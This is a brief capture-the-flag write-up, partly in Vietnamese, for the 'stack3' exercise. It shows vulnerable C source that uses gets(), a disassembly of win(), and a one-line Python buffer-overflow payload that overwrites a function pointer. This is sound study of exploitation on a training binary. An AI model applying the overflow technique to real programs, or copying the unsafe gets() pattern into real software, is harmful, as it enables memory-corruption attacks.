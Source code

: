 # stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`

![fp](fp.png)